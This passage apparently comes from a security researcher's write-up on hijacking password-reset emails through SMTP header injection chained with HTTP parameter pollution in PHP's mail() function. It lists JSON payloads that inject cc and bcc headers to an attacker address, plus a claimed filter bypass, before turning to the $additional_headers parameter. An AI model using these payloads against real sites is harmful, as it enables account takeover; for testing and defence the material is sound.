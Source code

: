 ## CRLF Injection

> Note: in Unix systems we can add only \n as a Line Feed to do SMTP header injection but in windows system you need to add \r\n to do your SMTP header injection attack

Unix System (\n url-encoded)

// Carbon Copy (CC:) with HPP chain  
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}  
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}  
  
// Blind Carbon Copy (BCC:) with HPP chain  
{"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}  
{"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}

Windows System (\r\n url-encoded)

// Carbon Copy (CC:) with HPP chain  
{"email":"Victim@mail.com%0D%0Acc:Attacker@mail.com","email":"Victim@mail.com"}  
{"email":"Victim@mail.com","email":"Victim@mail.com%0D%0Acc:Attacker@mail.com"}  
  
// Blind Carbon Copy (BCC:) with HPP chain  
{"email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}  
{"email":"Victim@mail.com","email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com"}

![](https://miro.medium.com/v2/resize:fit:700/1*g_SrZKtUEmKeu6CxP-ihXA.png)

But it did not work

So what if the version is a little bit newer and there is a protection against CRLF injection or SMTP header injection in $to parameter

As a protection, the mail() function started to convert control characters like a line feed or carriage return in the $subject and $to parameters into spaces

But fortunately, there was a bypass for this protection

So let’s not get into more details of the bypass to organize the write-up topics and use that bypass directly at our email parameter which should be injected into $to parameter

// HPP chain with Bypass the mail() function protection against email header injection  
{"email":"Victim@mail.com\r\n \ncc: Attacker@mail.com","email":"Victim@mail.com"}  
{"email":"Victim@mail.com","email":"Victim@mail.com\r\n \ncc: Attacker@mail.com"}

But it didn’t work too

So it seems that the used mail function is up to date and not vulnerable to the previous attacks

So what if the email of user value injected into the header for any logic used by developers is passed into the $additional_headers parameter

## Attacking $additional_headers parameter

$additional_headers parameter used to add other needed headers by the developers e.g if the mail contains HTML data so the developers will need to set the “Content-type: text/html” header to make data parsed as HTML at the user browser or for adding “From: reset-password@hubspot.com” header
